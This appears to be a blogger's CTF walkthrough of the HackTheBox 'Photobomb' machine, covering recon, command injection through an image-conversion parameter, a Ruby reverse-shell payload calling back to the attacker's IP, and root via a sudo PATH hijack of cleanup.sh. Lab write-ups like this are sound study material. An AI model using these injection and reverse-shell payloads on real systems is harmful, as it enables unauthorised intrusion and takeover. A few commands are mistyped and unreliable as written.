 ```yaml
---
id: 6
title: CTF Walkthroughs - Photobomb
description: My walkthrough of the Photobomb machine on hackthebox.com
publishedDate: 01/25/2023
featureImage: https://i.imgur.com/LbooXdNh.png
tags:
  - ctf_walkthroughs
---
```


## Intro

Hello Internet!

So I know it's been a few months since my last post, ugh I told myself I wouldn't go this long in between posts!

It's been a while since my last post, but I've actually been pretty busy in the pentesting/learning area! I worked through the whole advent of cyber program throughout December, and started working through the Red Team Modules in TryHackMe.com as well!

So I thought I might take a little bit of a break from TryHackMe, and started looking at HackTheBox.com. My goal is to take my OSCP test later this year, so I'm trying to get into more of a frequency of working on these vulnerable boxes. Unintended side effect of this is that means I'll be having more posts as I work through these!

So anyways, to get a feel for HackTheBox, I did a couple easy machines. One of them, soccer, I confess I did while going through someone else's walkthrough, so I didn't think that should be one that I blog about. I then did precious.htb, but I was kind of bad about not taking screenshots of the steps, so I finished getting the flags, but I kind of gave up on the write-up.

So today I'm writing about the photobomb HackTheBox machine! This machine is rated easy (I'm sticking with the easy ones for now until I start to feel more comfortable with what I'm doing), and has quite a few owns on it, so it looks like it should be a good first post on HackTheBox!

Ok, let's get started!

## Recon

First off, I started with an nmap scan.

`nmap -sC -sV 10.10.11.182`

![f11e59756439cc78acbbe502479884df.png](https://i.imgur.com/lT0h4nl.png)
Ok, looks like ports 22 and 80 are open, and if I try to hit http://10.10.11.182, I get an attempted redirect to http://photobomb.htb. So looks like I need to add that to my host file.

After adding the host file entry, I first navigate to the page, and this is what I see:
![b42737bbdd4c2b0c052b0fa734970e6e.png](https://i.imgur.com/sjqxJYX.png)
I reload the page with the network tab open and start looking at the headers in the response. I've noticed that with the HTB machines compared to the TryHackMe rooms, it seems like with the boxes I've done there's been way more emphasis on the headers.

Anyways, nothing in the headers, but there's a link on the home page to "get started", guess I'll try that out?

![d34a1463dda6cfa17bf6c9cbaad989df.png](https://i.imgur.com/ofrKhFi.png)
Ooohhh, ok, looks like I need a login for that, not going to get there yet...
Ok, I go ahead and git dirbuster up and running to see if there are any other pages to look at. If you haven't picked up from my screenshots, I'm using Kali for this, I used TryHackMe's Attackbox throughout my posts on those rooms, just for ease of use. Since I'm starting to study for OSCP though, I figured it was time to actually start using a dedicated instance, so I'm running a VM of Kali to work from.

While dirbuster is running, I start looking through the CSS files and JS files to see if there is anything I can work with from there.

![afe2dbd2315a0de9484da62e416e588c.png](https://i.imgur.com/6zroPoI.png)
Looks like in photobomb.js there's a reference to look for a cookie, and if that cookie is set, then you get routed to some sort of page...

![763e0f59f129202e79ede2e3d27109dd.png](https://i.imgur.com/LbooXdN.png)Hmmmm, interesting, looks like that "logs me in" as the pH0t0 user, neat!

Ok, so it doesn't look like there's much to this page, you pick an image, an image size value and image type value and, the site returns with the image in that size and format.

![1e4ff86a80bae992b87339f723eb0875.png](https://i.imgur.com/PTr7MO3.png) It looks like the filename, filetype and image size parameters are sent back in the POST request, I wonder if I can manipulate those parameters?

I'm just going to try removing one of them to see if I get any errors.

![c3395328f85a178255c706ad473f12ad.png](https://i.imgur.com/6Jytho4.png)
Ahhh, interesting! So I removed the photo parameter from the POST request, and triggered a Sinatra error page that displays the code where the error occurred! I'm now able to read part of the file that's doing this processing!

I wonder if the same thing will happen if I remove other parameters.
![f467029dadd834cd4ea7d26513efc821.png](https://i.imgur.com/2kokHw9.png) Here's the part of the code that looks at the filetype parameter.

![daf44de473b8b15ddabfb5efb5b888f4.png](https://i.imgur.com/vyOv6gE.png) Here's the part of the code that looks at the file Size parameter.

## Foothold

OK, from looking at that fileType parameter, it looks like there's just a check to see if "png" or "jpg" is in the parameter. I'm going to see if I can inject any commands into that parameter and maybe trigger something. Unfortunately, there's no response text section, so I can't just like inject "whoami" or "echo $PWD" or anything fun like that. I'll set up a netcat listener and see if maybe I can use curl?

Here's the modified request
![18bada8ec0ce69f87c5c2f3525b38215.png](https://i.imgur.com/q2JdlXd.png)
![d2750cd46ba3be02c1e432e449f6f263.png](https://i.imgur.com/0aNdW1i.png) Heyyyyy, looks like we can use curl! (Had to recreate this screenshot after disconnecting and re-connecting, so the IP was different)
Ok, I think from here I have to try and get some sort of reverse shell going

I used reverseshells.com and spent a good few hours trying a number of different options, both URLEncoded and not encoded. Ultimately I eventually realized that if this site is using Sinatra and the errors we saw were from Ruby files, we should be able to use Ruby for a reverse shell!

Here's the request. minus any spaces and with the %3b in place of a semicolon:
`%3bruby+-rsocket+-e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.33",9090))'`
![0e101cbc272c78a010f4ba295e9fe5da.png](https://i.imgur.com/PLoL0Du.png)

![123f6ace8a0ac0f3781d5df29796a03b.png](https://i.imgur.com/lQUEaZh.png)Aaaaannnnd we have the terminal now!

Before looking for flags, let's get this to a more stable terminal session
`python3 -c "import pty; pty.spawn('/bin/bash')"`

I still can't use my arrow keys or tab-complete, but this is a little more stable.

The user flag was fairly easy to find, just in /home/wizard/user.txt

## Privilege Escalation

With the user flag out of the way, I wanted to start looking for privilege escalation vulnerabilities. Let's check if my user can run any sudo commands

`sudo -l`

![42f55b6f6c4baf004e7753f2bc546b39.png](https://i.imgur.com/Ivf0w3N.png)
Interesting.... Looks like I can run this cleanup.sh script witrh sudo privileges and don't even need the password!
Let's take a look at this cleanup.sh file
![433882a1f54fd6cb3ade3bef9a744396.png](https://i.imgur.com/rYNwCiR.png) Ok, so I notice that most of the commands have the full path to the command listed ("/usr/bin/truncate" instead of just "truncate"). The last line of the script has both the "find" command and the "chown" command without the full path.
Because of this, I should be able to add append another location to the beginning of the $PATH environment variable, and write my own definition of either the "find" or "chown" command. I can put anything I want in there then and (hopefully) get a root shell!

I tested this out by making a "find" file with just "whoami" as the command inside the file

`echo "whoami" > find`

I next had to make the file executable:
`chmod +x file`

Then I added the current working directory to the PATH variable temporarily and ran the script:
`sudo PATH=$PWD:$PATH /opt/cleanup.`
You can see in the screenshot I tried to run it when the find file didn't have executable privileges, but once I set those privileges, then it worked!
![40a0c3670164a6aa3381f3fa8a1c2e85.png](https://i.imgur.com/T3DeGuK.png)
Ok cool, I just have to change the find file to run "bash" and we should be golden!

I wasn't able to get an editor up, so I just deleted the find file I made earlier and made a new one:
![a56526cf1636bea89dddb49d0723edde.png](https://i.imgur.com/U3QVyam.png)
We have root access now!!

Root flag was just in /root/root.txt, so nothing too difficult to find!

Welp, that wraps up this machine! I admit, I got stuck on the reverse shell payload for a good couple of hours, and I also got stuck on the privilege escalation for a while (I tried exporting the path with the directory and for some reason it was working. Then I was accidentally writing `sudo $PATH=$PWD:$PATH /opt/cleanup.` and it wasn't doing anything either).

Not too bad for one of my first machines on Hack The Box though! Since I'm now studying up for my OSCP test, I'll (hopefully) be posting more of these, so we'll see you (soon) on the next one!
